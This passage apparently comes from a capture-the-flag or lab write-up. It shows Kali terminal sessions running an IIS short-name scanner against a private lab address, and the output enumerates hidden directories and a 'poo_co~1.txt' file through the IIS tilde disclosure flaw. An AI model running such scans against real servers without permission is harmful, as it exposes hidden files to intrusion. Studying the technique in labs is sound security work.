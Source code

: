 ```
----------------------------------------------------------------
1 Directories, 0 Files found in total
Note that * is a wildcard, matches any character zero or more times.
root@kali:~/IIS_shortname_Scanner# python iis_shortname_Scan.py http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1
Server is vulnerable, please wait, scanning...
[+] /dev/304c0c90fbc6520610abbf378e2339d1/d~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/ds~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/ds_~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/ds_s~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/ds_st~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/ds_sto~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/ds_sto~1	[scan in progress]
[+] Directory /dev/304c0c90fbc6520610abbf378e2339d1/ds_sto~1	[Done]
----------------------------------------------------------------
Dir:  /dev/304c0c90fbc6520610abbf378e2339d1/ds_sto~1
----------------------------------------------------------------
1 Directories, 0 Files found in total
Note that * is a wildcard, matches any character zero or more times.
```

```
root@kali:~/IIS_shortname_Scanner# python iis_shortname_Scan.py http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/db
Server is vulnerable, please wait, scanning...
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/p~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/po~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/poo~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_c~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_co~1.*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_co~1.t*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_co~1.tx*	[scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_co~1.txt*	[scan in progress]
[+] File /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_co~1.txt*	[Done]
----------------------------------------------------------------
File: /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_co~1.txt*
----------------------------------------------------------------
0 Directories, 1 Files found in total
Note that * is a wildcard, matches any character zero or more times.

root@kali:~/IIS_shortname_Scanner# python iis_shortname_Scan.py http://10.13.38.11/dev/dca66d38fd916317687e1390a420c3fc/db
Server is vulnerable, please wait, scanning...
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/p~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/po~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_c~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.t*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.tx*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.txt*	[scan in progress]
[+] File /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.txt*	[Done]
----------------------------------------------------------------
File: /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.txt*
----------------------------------------------------------------
0 Directories, 1 Files found in total
Note that * is a wildcard, matches any character zero or more times.
```

